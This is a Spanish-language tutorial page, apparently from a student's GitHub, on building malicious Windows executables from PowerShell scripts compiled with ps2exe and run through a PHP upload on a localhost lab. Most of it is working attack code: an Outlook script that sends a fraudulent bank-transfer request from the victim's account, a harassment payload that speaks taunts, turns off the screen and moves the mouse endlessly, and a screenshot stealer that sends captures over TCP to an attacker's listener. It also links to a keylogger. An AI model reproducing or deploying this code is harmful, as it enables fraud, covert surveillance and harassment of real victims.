# CREACIÓN DE VIRUS (VERSIÓN .EXE)
<p align="center">
<img src="https://media.giphy.com/media/115BJle6N2Av0A/giphy.gif" />
</p>
Vamos a crear con powershell script que posteriormente convertiremos en archivos ejecutables (.exe). Para ello usaremos WIN-PS2EXE (Modo Gráfico)

Instalaremos con powershell el modulo (modo administrador)
```powershell
Install-Module -Name ps2exe
```
Posteriormente abriremos el programa de forma gráfica.
```powershell
win-ps2exe
```
Para crear el .exe solo tenemos que introducir la ruta del script .ps1 en SOURCE FILE y la ruta + el nombre del archivo (incluyendo la extension .exe) en Target file.
<br/>
<p align="center">
<a href="https://i.stack.imgur.com/iZ9es.png"><img src="https://i.stack.imgur.com/iZ9es.png" /></a>
</p>
<br/>

Para mas dudas con la instalación visita.
 [TUTORIAL](https://www.optimizationcore.com/scripting/powershell-ps1-to-exe-converter-ps2exe-markus-scholtes/)
## MODUS OPERANDI
Para crear el laboratorio, trabajaremos con localhost en xampp y vamos a crear un **formulario** al cual subiremos los ejecutables que se guardarán en una carpeta **Upload** (propiedad de la victima) donde posteriormente ejecutaremos.
Para ello crearemos un PHP dentro de htdocs con lo siguiente:
```powershell
<?php
system(".\\uploads\\hola.exe");
?>
```

Aqui podemos ver como crearlo [Formulario y carpeta upload](https://github.com/PabloQueipo/IAW/blob/cf923c250a9a52f6598e0b01b7d996cb9978ef58/2020_11_27.md)

------------------------------

## CASOS VARIOS
<p align="center">
<a href="https://www.campusciberseguridad.com/media/k2/items/cache/9267284e7733f4bec00d2e114d3f3ba1_XL.jpg"><img src="https://www.campusciberseguridad.com/media/k2/items/cache/9267284e7733f4bec00d2e114d3f3ba1_XL.jpg" /></a>
</p>

### PHISHING
Haciendo una investigación previa se consiguen correos electronicos de personal de la empresa y desde la cuenta de la víctima mandaremos un correo a otro compañero pidiendo un ingreso en una cuenta bancaria.

```powershell
$Outlook = New-Object -ComObject Outlook.Application
$Mail = $Outlook.CreateItem(0)
$Mail.To = "keipo20@gmail.com"
$Mail.Subject = "URGENTE"
$Mail.Body ="Buenos días, haz un ingreso de 100 € a la Cuenta Bancaria siguiente: xx xxxx xx xxxx xxxxxxxxxxx"
$Mail.Send()
```

**Phishing con la aplicación** [NEXPHISHER](https://github.com/PabloQueipo/SAD/blob/main/2020_11_11.md)

### MOLESTAR
Ejecutable con la siguiente secuencia:
1. Minimizar todas las pantallas.
2. Voz con mensaje
3. Gif que habremos introducido junto con el .exe
4. Voz con mensaje y posterior apagar pantalla
5. Bucle que mueve el ratón.

<p align="center">
<img src="https://media.giphy.com/media/eaECZB7V6GACc/giphy.gif"/>
</p>


```powershell
(New-Object -ComObject Shell.Application).MinimizeAll()
(New-Object -com SAPI.SpVoice).speak("Acabo de entrar en tu ordenador")
Start-Process ".\\uploads\\hacker.gif"

Start-Sleep 1
(New-Object -com SAPI.SpVoice).speak("TE VOY A APAGAR LA PANTALLA")

$code = @"
using System;
using System.Runtime.InteropServices;
public class API
{
    [DllImport("user32.dll")]
    public static extern
    int SendMessage(IntPtr hWnd, UInt32 Msg, IntPtr wParam, IntPtr lParam);
}
"@
$t = Add-Type -TypeDefinition $code -PassThru
$t::SendMessage(0xffff, 0x0112, 0xf170, 2)

for(1)
{
    Start-Sleep -Seconds 1
    $xa = [System.Windows.Forms.Cursor]::Position.X
    $ya = [System.Windows.Forms.Cursor]::Position.y
    Write-Host $xa $ya
    Start-Sleep -Seconds 1
    [System.Windows.Forms.Cursor]::Position=New-Object System.Drawing.Point(($xa+50),($ya+50))
    $xa = [System.Windows.Forms.Cursor]::Position.X
    $ya = [System.Windows.Forms.Cursor]::Position.y
    Write-Host $xa $ya
}
```

### CAPTURAS DE PANTALLA

Dos maneras:
- Guardarlas en el propio sistema
- Mandarlas Cliente/Servidor

#### Propio Sistema
Con este Script podemos realizar capturas de pantalla y guardarlas en la ruta que indiquemos.
```powershell
[Reflection.Assembly]::LoadWithPartialName("System.Drawing")
function screenshot([Drawing.Rectangle]$bounds, $path) {
$bmp = New-Object Drawing.Bitmap $bounds.width, $bounds.height
$graphics = [Drawing.Graphics]::FromImage($bmp)
$graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size)
$bmp.Save($path)
$graphics.Dispose()
$bmp.Dispose()
}
$bounds = [Drawing.Rectangle]::FromLTRB(0, 0, 1000, 900)
screenshot $bounds "C:\Users\keipo\Desktop\screenshot.png"
```
-------------------------------------------
#### Cliente/Servidor

Para ello el **Cliente será** el archivo que debera ejecutar **la víctima**, y el **Servidor** deberá estar previamente escuchando.
**Cliente/Víctima**
```powershell
$port=2053
$TcpClient=New-Object System.Net.Sockets.TcpClient([IPAddress]::Loopback, $port)
$GetStream = $TcpClient.GetStream()
$StreamWriter = New-Object System.IO.StreamWriter $GetStream
$path=’C:\Users\keipo\Desktop\screenshot.bmp’
$Bitmap=New-Object System.Drawing.Bitmap([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Width, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Height)
$Graphics=[System.Drawing.Graphics]::FromImage($Bitmap)
$Graphics.CopyFromScreen((New-Object System.Drawing.Point(0,0)), (New-Object System.Drawing.Point(0,0)), $Bitmap.Size)
$Graphics.Dispose()
$Bitmap.Save($path,'Bmp')
$Bytes = [System.IO.File]::ReadAllBytes($path)
$StreamWriter.Write($Bytes,0,$Bytes.length)
$StreamWriter.Dispose()
$GetStream.Dispose()
$TcpClient.Dispose()
```

**Servidor/Delincuente**
```powershell
$port=2053
$IPEndPoint=New-Object System.Net.IPEndPoint([IPAddress]::Any,$port)
$TcpListener=New-Object System.Net.Sockets.TcpListener $IPEndPoint
$TcpListener.Start()
$AcceptTcpClient=$TcpListener.AcceptTcpClient()
$GetStream=$AcceptTcpClient.GetStream()
$StreamReader=New-Object System.IO.StreamReader $GetStream
$ReadAllLines = $StreamReader.ReadToEnd()
$Bytes = ([system.Text.Encoding]::Default).GetBytes($ReadAllLines)
[System.IO.File]::WriteAllBytes('C:\Users\keipo\Desktop\screenshotcopy.bmp',$Bytes)
$StreamReader.Dispose()
$GetStream.Dispose()
$AcceptTcpClient.Dispose()
$TcpListener.Stop()
```


### CREACIÓN DE KEYLOGGER (PYTHON)
[Pablo Queipo Keylogger](https://github.com/PabloQueipo/SAD/blob/83925cc70ef76fc94868dacb8c112919c6221c53/2020_11_09.md9)
